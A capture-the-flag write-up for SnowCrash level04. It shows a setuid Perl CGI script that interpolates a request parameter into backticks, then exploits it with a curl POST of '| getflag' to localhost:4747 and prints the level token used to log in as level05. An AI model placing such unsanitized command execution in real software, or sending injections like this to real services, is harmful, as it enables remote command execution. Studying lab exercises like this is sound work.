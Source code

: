 # level04

- We login as user level04.
```
level04@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

- Let's `cat ./level04.pl`:
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```


- The script appears to be designed to be executed by a [CGI](https://en.wikipedia.org/wiki/Common_Gateway_Interface) through a service listening on `localhost:4747`.
It calls the `x()` function with the parameter `x` retrieved from the CGI. The function calls `echo` with the parameter it receives.
Therefore, if the parameter `x` is `| getflag`, this script will then execute `echo | getflag`.
```
level04@SnowCrash:~$ netstat -tuln | grep 4747
tcp6       0      0 :::4747                 :::*                    LISTEN
```


- There is indeed a service listening on all addresses through port 4747.
```
level04@SnowCrash:~$ curl -X POST -d "x=| getflag" http://localhost:4747
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

```
level04@SnowCrash:~$ su level05
Password:ne2searoevaevoem4ov4ar8ap
level05@SnowCrash:~$
```